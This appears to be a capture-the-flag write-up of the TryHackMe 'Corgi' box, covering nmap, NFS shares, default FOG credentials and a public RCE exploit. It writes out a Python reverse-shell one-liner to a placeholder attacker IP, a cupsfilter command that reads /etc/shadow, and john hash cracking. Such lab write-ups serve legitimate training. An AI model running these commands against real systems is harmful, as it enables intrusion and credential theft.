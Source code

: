 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any pen test is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](/Images/nmap_1.png)
![nmap scan pt2](/Images/nmap_2.png)

## NFS
from this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.
![showmount](/Images/showmount.png)
looks like there are 2 shares we can mount, lets use mount one of them and have a look around
![mount](/Images/mount.png)

## FOG Project
after looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'
![FOG documentation](/Images/FOG_1.png)
and going to `<TARGET-IP>/fog` takes us to a login page
![FOG login](/Images/FOG_2.png)
Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.
![FOG default creds](/Images/FOG_3.png)
Lucky for us these default credentials worked and we are now logged in to the FOG dashboard
![FOG dashboard](/Images/FOG_4.png)

## RCE Exploit
now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.
![search on exploitdb](/Images/exploit_1.png)
Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811
![exploit contents](/Images/exploit_2.png)
lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.
![before file upload](/Images/exploit_3.png)
![after file upload](/Images/exploit_4.png)
running the hostname command to test if file upload worked
![testing RCE](/Images/exploit_5.png)

## Reverse Shell & Privilege Escalation
now that we have RCE lets get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![getting reverse shell](/Images/rev_shell_1.png)
and stabilise the shell
![stabilising reverse shell](/Images/rev_shell_2.png)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`
![available binaries](/Images/binaries.png)
After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![result on GTFObins](/Images/cupsfilter.png)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![reading the /etc/passwd file pt1](/Images/passwd_1.png)
![reading the /etc/passwd file pt2](/Images/passwd_2.png)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![reading the /etc/shadow file pt1](/Images/shadow_1.png)
![reading the /etc/shadow file pt2](/Images/shadow_2.png)
lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`
`john --wordlist=/usr/share/wordlists/rockyou.txt`
![cracking the hashes](/Images/cracked.png)

so now we have a login, lets `su` into the new user and see what permissions they have.sudo 
![checking sudo -l](/Images/sudo.png)

so it looks like they can run any command, lets try to get into the root account and find the user and root hashes

![sudo su and user hash](/Images/usr_hash.png)
![root hash](/Images/root_hash.png)